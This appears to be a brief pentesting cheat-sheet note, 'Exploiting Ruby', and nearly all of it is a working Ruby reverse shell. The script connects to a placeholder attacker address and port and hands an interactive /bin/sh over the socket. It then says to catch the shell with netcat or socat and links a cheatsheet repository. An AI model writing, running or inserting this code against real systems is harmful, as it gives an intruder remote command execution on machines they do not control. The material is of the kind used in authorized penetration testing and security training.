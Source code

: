 # Exploiting Ruby

* **author**:: Nathan Acks
* **date**:: 2022-07-11

A simple reverse shell:

```ruby
require "socket"

attacker_ip = "10.0.0.1"
attacker_port = 1234

f = TCPSocket.open(attacker_ip, attacker_port).to_i

exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [Ruby - Socket Programming](https://www.tutorialspoint.com/ruby/ruby_socket_programming.htm)
